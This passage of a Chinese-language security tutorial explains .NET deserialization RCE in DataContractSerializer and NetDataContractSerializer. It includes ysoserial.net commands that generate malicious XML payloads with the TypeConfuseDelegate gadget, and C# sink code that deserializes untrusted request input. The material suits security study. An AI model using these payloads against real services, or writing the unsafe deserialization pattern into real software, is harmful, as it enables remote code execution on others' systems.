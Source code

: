 ### 反序列化 RCE 漏洞利用代码
`DataContractSerializer` 支持类型推断和多态，攻击者可构造恶意 XML，结合已知 gadget 实现 RCE。例如：
```bash
# 使用 ysoserial.net 生成恶意 XML payload
ysoserial.exe -g TypeConfuseDelegate -f xml -c "calc.exe" -o payload.xml
```

### Sink 点
反序列化发生在调用 `DataContractSerializer.ReadObject` 时，若输入可控且类型未限制，可能导致漏洞。关键点：
- 允许多态反序列化。
- 未验证 XML 来源或内容。
- 示例代码：
```csharp
using (var stream = Request.InputStream)
{
    var obj = new DataContractSerializer(typeof(MyClass)).ReadObject(stream);
}
```

## 6 NetDataContractSerializer
### 介绍
`NetDataContractSerializer` 与 `DataContractSerializer` 类似，但会在序列化数据中包含完整的 .NET 类型信息，常用于 WCF 内部通信。

### 基本使用
常见用法如下：
```csharp
// 序列化
var serializer = new NetDataContractSerializer();
using (var stream = new FileStream("data.xml", FileMode.Create))
{
    serializer.Serialize(stream, myObject);
}

// 反序列化
using (var stream = new FileStream("data.xml", FileMode.Open))
{
    var obj = (MyClass)serializer.Deserialize(stream);
}
```

### 反序列化 RCE 漏洞利用代码
由于包含类型信息，攻击者可构造恶意 XML，利用 gadget 链实现 RCE。例如：
```bash
# 使用 ysoserial.net 生成恶意 XML payload
ysoserial.exe -g TypeConfuseDelegate -f netdcs -c "calc.exe" -o payload.xml
```

### Sink 点
反序列化发生在调用 `NetDataContractSerializer.Deserialize` 时，若输入可控且未做校验，极易导致漏洞。关键点：
- 反序列化用户可控的 XML。
- 包含类型信息，易被利用。
- 示例代码：
```csharp
using (var stream = Request.InputStream)
{
    var obj = new NetDataContractSerializer().Deserialize(stream);
}
```
